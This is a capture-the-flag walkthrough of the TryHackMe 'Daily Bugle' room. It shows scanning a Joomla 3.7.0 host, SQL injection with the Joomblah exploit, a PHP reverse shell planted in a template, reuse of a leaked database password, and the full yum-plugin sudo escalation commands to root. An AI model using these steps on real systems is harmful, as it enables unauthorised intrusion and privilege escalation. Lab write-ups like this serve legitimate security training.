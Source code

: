 ```yaml
---
layout: default
title: Daily Bugle
description: THM - Daily Bugle
---
```


## Enumeration

Nmap Scan:
```
Nmap scan report for 10.10.8.229
Host is up (0.067s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-title: Home
3306/tcp open  mysql   MariaDB (unauthorized)
```
Gobuster Scan:
```
/images               (Status: 301) [Size: 234] [--> http://10.10.8.229/images/]
/media                (Status: 301) [Size: 233] [--> http://10.10.8.229/media/]
/templates            (Status: 301) [Size: 237] [--> http://10.10.8.229/templates/]
/modules              (Status: 301) [Size: 235] [--> http://10.10.8.229/modules/]
/bin                  (Status: 301) [Size: 231] [--> http://10.10.8.229/bin/]
/plugins              (Status: 301) [Size: 235] [--> http://10.10.8.229/plugins/]
/includes             (Status: 301) [Size: 236] [--> http://10.10.8.229/includes/]
/language             (Status: 301) [Size: 236] [--> http://10.10.8.229/language/]
/components           (Status: 301) [Size: 238] [--> http://10.10.8.229/components/]
/cache                (Status: 301) [Size: 233] [--> http://10.10.8.229/cache/]
/libraries            (Status: 301) [Size: 237] [--> http://10.10.8.229/libraries/]
/tmp                  (Status: 301) [Size: 231] [--> http://10.10.8.229/tmp/]
/layouts              (Status: 301) [Size: 235] [--> http://10.10.8.229/layouts/]
/administrator
```
Looking at the source we can see the website is running Joomla CMS
```
<script type="application/json" class="joomla-script-options new">{"system.keepalive":{"interval":840000,"uri":"\/index.php\/component\/ajax\/?format=json"}}</script>
```
Robots.txt file:
```
User-agent: *
Disallow: /administrator/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```
Accessing:
```
http://10.10.8.229/language/en-GB/en-GB.xml
```
Shows us that the Joomla version is 3.7.0
```
<metafile version="3.7" client="site">
<name>English (en-GB)</name>
<version>3.7.0</version>
```
Looking around for an exploit, it appears we have found one using searchsploit, and another one on github, "Joomblah"
```
https://github.com/XiphosResearch/exploits/tree/master/Joomblah

[-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '[REDACTED]', '', '']
  -  Extracting sessions from fb9j5_session
```
So we found a user, jonah, and a hash. Cracking the hash gave us a password.

Let's try logging into joomla.

It worked!

We'll now go to "templates" and replace the "index.php" content with a php shell.
```
nc -lvnp 9002
Listening on 0.0.0.0 9002
Connection received on 10.10.8.229 37676
SOCKET: Shell has connected! PID: 3568
whoami
apache
```
From here, I'll beautify my shell and look around for interesting files.

Also, I'll run linpeas. Just open two shells.

Now, this server is vulnerable to "PwnKit". But I don't think it's the intended path, so we're not gonna use it.

After looking up and down and finding nothing, I went back to the web directory, where a "configuration.php" file was sitting.
```
$host = 'localhost';
        public $user = 'root';
        public $password = '[REDACTED]';
        public $db = 'joomla';
        public $dbprefix = 'fb9j5_';
        public $live_site = '';

bash-4.2$ su root
su root
Password: [REDACTED]

su: Authentication failure

bash-4.2$ su jjameson
su jjameson
Password: [REDACTED]

[jjameson@dailybugle html]$ 
```
Great! We moved laterally to jjameson.

Let's see his level of access. But first, I'll ssh into the machine for a better shell.
```
ssh jjameson@10.10.8.229
jjameson@10.10.8.229's password: 
Last login: Sun Sep 24 15:19:41 2023
[jjameson@dailybugle ~]$ ls
user.txt
[jjameson@dailybugle ~]$   
```
We now have the user.txt file.
```
[jjameson@dailybugle ~]$ sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME
    HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
[jjameson@dailybugle ~]$ 

```
Using yum with sudo, we can look on GTFOBins and gain root.
```
[jjameson@dailybugle ~]$ TF=$(mktemp -d)
[jjameson@dailybugle ~]$ cat >$TF/x<<EOF
> [main]
> plugins=1
> pluginpath=$TF
> pluginconfpath=$TF
> EOF
[jjameson@dailybugle ~]$ cat >$TF/y.conf<<EOF
> [main]
> enabled=1
> EOF
[jjameson@dailybugle ~]$ cat >$TF/y.py<<EOF
> import os
> import yum
> from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
> requires_api_version='2.1'
> def init_hook(conduit):
>   os.execl('/bin/sh','/bin/sh')
> EOF
[jjameson@dailybugle ~]$ sudo yum -c $TF/x --enableplugin=y
Failed to set locale, defaulting to C
Loaded plugins: y
No plugin match for: y
sh-4.2# id
uid=0(root) gid=0(root) groups=0(root)
sh-4.2# 
```
We now have root access, we can read the flag and submit it!

Good hunting o7

[Try it out yourself!](https://tryhackme.com/room/dailybugle)
